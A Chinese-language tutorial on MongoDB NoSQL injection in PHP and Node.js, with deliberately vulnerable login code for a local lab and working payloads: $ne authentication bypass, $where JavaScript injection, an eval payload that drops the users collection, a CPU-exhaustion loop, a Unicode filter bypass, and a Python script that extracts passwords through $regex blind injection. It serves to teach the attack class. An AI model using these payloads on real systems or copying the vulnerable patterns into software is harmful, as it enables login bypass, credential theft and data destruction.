



# Nosql 注入

## 简介

Nosql 注入由于 Nosql 本身的特性和传统的 SQL 注入有所区别。使用传统的 SQL 注入，攻击者利用不安全的用户输入来修改或替换应用程序发送到数据库引擎的 SQL 查询语句（或其他 SQL 语句）。

换句话说，SQL 注入可以使攻击者在数据库中执行 SQL 命令。

与关系数据库不同，Nosql 数据库不适用通用查询语言。

- 什么是通用查询语言？

Nosql 查询语法是特定于产品的，查询是使用应用程序的编程语言编写的：PHP、JS、Python、Java 等。这意味着成功的注入不仅可以使攻击者在数据库中执行命令，而且可以在应用程序中执行命令，这可能更加危险。

以下是 OWASP 对于 Nosql 注入的介绍：

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren’t using the traditional SQL syntax. Because these NoSQL injection attacks may execute within a [procedural language](https://en.wikipedia.org/wiki/Procedural_programming), rather than in the [declarative SQL language](https://en.wikipedia.org/wiki/Declarative_programming), the potential impacts are greater than traditional SQL injection.
>
> NoSQL database calls are written in the application’s programming language, a custom API call, or formatted according to a common convention (such as `XML`, `JSON`, `LINQ`, etc). Malicious input targeting those specifications may not trigger the primarily application sanitization checks. For example, filtering out common HTML special characters such as `< > & ;` will not prevent attacks against a JSON API, where special characters include `/ { } :`.



## Nosql 注入的分类

有两种 Nosql 注入的分类方式：

1. 按照语言分类，可以分为：PHP 数组注入、JavaScript 注入以及 Mongo Shell 拼接注入等等。
2. 按照攻击机制分类，可以分为：重言式注入、联合查询注入、JavaScript 注入、盲注等，这种分类方式很像传统 SQL 注入的分类方式。

- **重言式注入**

又称为永真式，此类攻击是在条件语句中注入代码，使生成的表达式判定结果永远为真，从而绕过认证或访问机制。

- **联合查询注入**

联合查询是一种众所周知的 SQL 注入技术，攻击者利用一个脆弱的参数去改变给定查询返回的数据集。联合查询常用于绕过认证页面获取数据。

- **JavaScript 注入**

MongoDB Server 支持 JavaScript，这使得在数据引擎进行复杂事务和查询成为可能，但是传递不干净的用户输入到这些查询中，可以注入任意的 JS 代码，导致非法的数据获取或篡改。

- **盲注**

当页面没有回显时，那么我们可以通过 `$regex` 来达到和传统的 sql 注入中 `substr()` 函数相同的功能，而且 NoSQL 用到的基本都是布尔盲注。

下面我们通过 PHP 和 NodeJS 来讲解 MongoDB 注入的利用方式。

## PHP 中的 MongoDB 注入

测试环境如下：

- Ubuntu
- PHP 7.4.21
- MongoDB Server 4.4.7

在 PHP 中使用 MongoDB 你必须使用 MongoDB 的 [PHP 驱动](https://pecl.php.net/package/mongodb) 。这里我们使用新版的 PHP 驱动来操作 MongoDB。

以下实例均以 POST 请求方式为例。

### 重言式注入

首先在 MongoDB 中选中 test 数据库，创建一个 users 集合并插入文档数据：

```sql
> use test
switched to db test
>
> db.createCollection('users')
{ "ok" : 1 }
>
> db.users.insert({username: 'admin', password: '123456'})
WriteResult({ "nInserted" : 1 })

> db.users.insert({username: 'whoami', password: '657260'})
WriteResult({ "nInserted" : 1 })

> db.users.insert({username: 'bunny', password: '964795'})
WriteResult({ "nInserted" : 1 })

> db.users.insert({username: 'bob', password: '965379'})
WriteResult({ "nInserted" : 1 })
>
```

然后编写 index.php：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

如下，当正常用户想要登陆 whoami 用户时，POST 方法提交的数据如下：

```
username=whoami&password=657260
```

进入 PHP 后的程序数据如下：

```
array(
    'username' => 'whoami',
    'password' => '657260'
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'whoami', 'password':'657260'})
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
```

我们从代码中可以看出，这里对用户输入没有做任何过滤与校验，那么我们可以通过 `$ne` 关键字构造一个永真的条件就可以完成 NoSQL 注入：

```sql
username[$ne]=1&password[$ne]=1
```

如下图所示，成功查出所有的用户信息，说明成功注入了一个永真查询条件：


提交的数据进入 PHP 后的数据如下：

```
array(
    'username' => array('$ne' => 1),
    'password' => array('$ne' => 1)
)
```

进入 MongoDB 后执行的查询命令为：

```
> db.users.find({'username':{$ne:1}, 'password':{$ne:1}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
```

由于 users 集合中 username 和 password 都不等于 1，所以将所有的文档数据查出，这很可能是真实的，并且可能允许攻击者绕过身份验证。

对于 PHP 本身的特性而言，由于其松散的数组特性，导致如果我们发送 `value=1` 那么，也就是发送了一个 `value` 的值为 1 的数据。如果发送 `value[$ne]=1` 则 PHP 会将其转换为数组 `value=array($ne=>1)`，当数据到了进入 MongoDB 后，原来一个单一的 `{"value":1}` 查询就变成了一个 `{"value":{$ne:1}` 条件查询。同样的，我们也可以使用下面这些作为 payload 进行攻击：

```
username[$ne]=&password[$ne]=
username[$gt]=&password[$gt]=
username[$gte]=&password[$gte]=
```

这种重言式注入的方式也是我们通常用来验证网站是否存在 NoSQL 注入的第一步。

### 联合查询注入

在 MongoDB 之类的流行数据存储中，JSON 查询结构使得联合查询注入攻击变得比较复杂了，但也是可以实现的。

我们都知道，直接对 SQL 查询语句进行字符拼接串容易造成 SQL 注入，NoSQL 也有类似问题。如下实例，假设后端的 MongoDB 查询语句使用了字符串拼接：

```
string query ="{ username: '" + $username + "', password: '" + $password + "' }"
```

当用户正确的用户名密码进行登录时，得到的查询语句是应该这样的：

```sql
{'username':'admin', 'password':'123456'}
```

如果此时没有很好地对用户的输入进行过滤或者效验，那攻击者便可以构造如下 payload：

```sql
username=admin', $or: [ {}, {'a': 'a&password=' }], $comment: '123456
```

拼接入查询语句后相当于执行了：

```
{ username: 'admin', $or: [ {}, {'a':'a', password: '' }], $comment: '123456'}
```

此时，只要用户名是正确的，这个查询就可以成功。这种手法和 SQL 注入比较相似：

```
select * from logins where username = 'admin' and (password true<> or ('a'='a' and password = ''))
```

这样，原本正常的查询语句会被转换为忽略密码的，在无需密码的情况下直接登录用户账号，因为 `()` 内的条件总是永真的。

但是现在无论是 PHP 的 MongoDB Driver 还是 Nodejs 的 Mongoose 都必须要求查询条件必须是一个数组或者 Query 对象了，因此这种注入方法简单了解一下就好了。

### JavaScript 注入

MongoDB Server 是支持 JavaScript 的，**可以使用 JavaScript 进行一些复杂事务和查询**，也允许在查询的时候执行 JavaScript 代码。但是如果传递不干净的用户输入到这些查询中，则可能会注入任意的 JavaScript 代码，导致非法的数据获取或篡改。

#### $where 操作符

首先我们需要了解一下 `$where` 操作符。在 MongoDB 中，`$where` 操作符可以用来执行 JavaScript 代码，将 JavaScript 表达式的字符串或 JavaScript 函数作为查询语句的一部分。

在 MongoDB 2.4 之前，通过 `$where` 操作符使用 `map-reduce`、`group` 命令甚至可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以在自定义的函数里获取数据库的所有信息。

如下实例：

```sql
> db.users.find({ $where: "function(){return(this.username == 'whoami')}" })
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
>
```

由于使用了 `$where` 关键字，其后面的 JavaScript 将会被执行并返回 "whoami"，然后将查询出 username 为 whoami 的数据。

某些易受攻击的 PHP 应用程序在构建 MongoDB 查询时可能会直接插入未经过处理的用户输入，例如从变量中 `$userData` 获取查询条件：

```
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```

然后，攻击者可能会注入一种恶意的字符串如 `'a'; sleep(5000)` ，此时 MongoDB 执行的查询语句为：

```
db.users.find({ $where: "function(){return(this.username == 'a'; sleep(5000))}" })
```

如果此时服务器有 5 秒钟的延迟则说明注入成功。

下面我们编写 index.php 进行测试：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];
$function = "
function() { 
    var username = '".$username."';
    var password = '".$password."';
    if(username == 'admin' && password == '123456'){
        return true;
    }else{
        return false;
    }
}";
$query = new MongoDB\Driver\Query(array(
    '$where' => $function
));
$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count>0) {
    foreach ($result as $user) {
        $user=(array)$user;
        echo '====Login Success====<br>';
        echo 'username: '.$user['username']."<br>";
        echo 'password: '.$user['password']."<br>";
    }
}
else{
    echo 'Login Failed';
}
?>
```

- **MongoDB 2.4 之前**

在 MongoDB 2.4 之前，通过 `$where` 操作符使用 `map-reduce`、`group` 命令可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

- **MongoDB 2.4 之后**

MongoDB 2.4 之后 `db` 属性访问不到了，但我们依然可以构造万能密码。如果此时我们发送以下这几种数据：

```
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

如下图所示，成功查出所有的用户信息：


这是因为发送 payload 进入 PHP 后的数据如下：

```
array(
    '$where' => "
    function() { 
        var username = '1';
        var password = '1';return true;var a='1';
        if(username == 'admin' && password == '123456'){
            return true;
        }else{
            return false;
        }
    }
")
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
>
```

我们从代码中可以看出，password 中的 `return true` 使得整个 JavaScript 代码提前结束并返回了 `true`，这样就构造出了一个永真的条件并完成了 NoSQL 注入。

此外还有一个类似于 DOS 攻击的 payload，可以让服务器 CPU 飙升到 100% 持续 5 秒：

```sql
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```

#### 使用 Command 方法造成的注入

MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用。在 MongoDB 的服务器端可以通过 `db.eval` 方法来执行 JavaScript 脚本，如我们可以定义一个 JavaScript 函数，然后通过 `db.eval` 在服务器端来运行。

但是在 PHP 官网中就已经友情提醒了不要这样使用：

```sql
<?php
$m = new MongoDB\Driver\Manager;

// Don't do this!!!
$username = $_GET['field'];
// $username is set to "'); db.users.drop(); print('"

$cmd = new \MongoDB\Driver\Command( [
'eval' => "print('Hello, $username!');"
] );

$r = $m->executeCommand( 'dramio', $cmd );
?>
```

还有人喜欢用 Command 去实现 MongoDB 的 `distinct` 方法，如下：

```sql
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

这样都是很危险的，因为这个就相当于把 Mongo Shell 开放给了用户，如果此时构造下列 payload：

```sql
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

则将改变原本的查询语句造成注入。如果当前应用连接数据库的权限恰好很高，我们能干的事情就更多了。

### 布尔盲注

当页面没有回显时，那么我们可以通过 `$regex` 正则表达式来进行盲注， `$regex` 可以达到和传统 SQL 注入中 `substr()` 函数相同的功能。

我们还是利用第一个 index.php 进行演示：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

布尔盲注重点在于怎么逐个提取字符，如下所示，在已知一个用户名的情况下判断密码的长度：

```sql
username=admin&password[$regex]=.{4}    // 登录成功
username=admin&password[$regex]=.{5}    // 登录成功
username=admin&password[$regex]=.{6}    // 登录成功
username=admin&password[$regex]=.{7}    // 登录失败
......
```






在 `password[$regex]=.{6}` 时可以成功登录，但在 `password[$regex]=.{7}` 时登录失败，说明该 whoami 用户的密码长度为 6。

提交的数据进入 PHP 后的数据如下：

```sql
array(
    'username' => 'admin',
    'password' => array('$regex' => '.{6}')
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'admin', 'password':{$regex:'.{6}'}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
> db.users.find({'username':'admin', 'password':{$regex:'.{7}'}})
>
```

由于 whoami 用户的 password 长度为 6，所以查询条件 `{'username':'admin', 'password':{$regex:'.{6}'}}` 为真，便能成功登录，而 `{'username':'admin', 'password':{$regex:'.{7}'}}` 为假，自然也就登录不了。

知道 password 的长度之后我们便可以逐位提取 password 的字符了：

```sql
username=admin&password[$regex]=1.{5}
username=admin&password[$regex]=12.{4}
username=admin&password[$regex]=123.{3}
username=admin&password[$regex]=1234.{2}
username=admin&password[$regex]=12345.*
username=admin&password[$regex]=123456
或
username=admin&password[$regex]=^1
username=admin&password[$regex]=^12
username=admin&password[$regex]=^123
username=admin&password[$regex]=^1234
username=admin&password[$regex]=^12345
username=admin&password[$regex]=^123456
```

下面给出一个 MongoDB 盲注脚本：

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c


# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```

## Nodejs 中的 MongoDB 注入

在 Nodejs 中也存在 MongoDB 注入的问题，其中主要是重言式注入，通过构造永真式构造万能密码实现登录绕过。下面我们使用 Nodejs 中的 mongoose 模块操作 MongoDB 进行演示。

- server.js

```javascript
var express = require('express');
var mongoose = require('mongoose');
var jade = require('jade');
var bodyParser = require('body-parser');

mongoose.connect('mongodb://localhost/test', { useNewUrlParser: true });
var UserSchema = new mongoose.Schema({
    name: String,
    username: String,
    password: String
});
var User = mongoose.model('users', UserSchema);
var app = express();

app.set('views', __dirname);
app.set('view engine', 'jade');

app.get('/', function(req, res) {
    res.render ("index.jade",{
        message: 'Please Login'
    });
});

app.use(bodyParser.json());

app.post('/', function(req, res) {
    console.log(req.body)
    User.findOne({username: req.body.username, password: req.body.password}, function (err, user) {
        console.log(user)
        if (err) {
            return res.render('index.jade', {message: err.message});
        }
        if (!user) {
            return res.render('index.jade', {message: 'Login Failed'});
        }

        return res.render('index.jade', {message: 'Welcome back ' + user.name + '!'});
    });
});

var server = app.listen(8000, '0.0.0.0', function () {

    var host = server.address().address
    var port = server.address().port

    console.log("listening on http://%s:%s", host, port)
});
```

- index.jade

```jade
h1 #{message}
p #{message}
```

运行 server.js 后，访问 8000 端口：

由于后端解析 JSON，所以我们发送 JSON 格式的 payload：

```
{"username":{"$ne":1},"password": {"$ne":1}}
```


如上图所示，成功登录。

在处理 MongoDB 查询时，经常会使用 JSON格式将用户提交的数据发送到服务端，如果目标过滤了 `$ne` 等关键字，我们可以使用 Unicode 编码绕过，因为 JSON 可以直接解析 Unicode。如下所示

```
{"username":{"\u0024\u006e\u0065":1},"password": {"\u0024\u006e\u0065":1}}
// {"username":{"$ne":1},"password": {"$ne":1}}
```


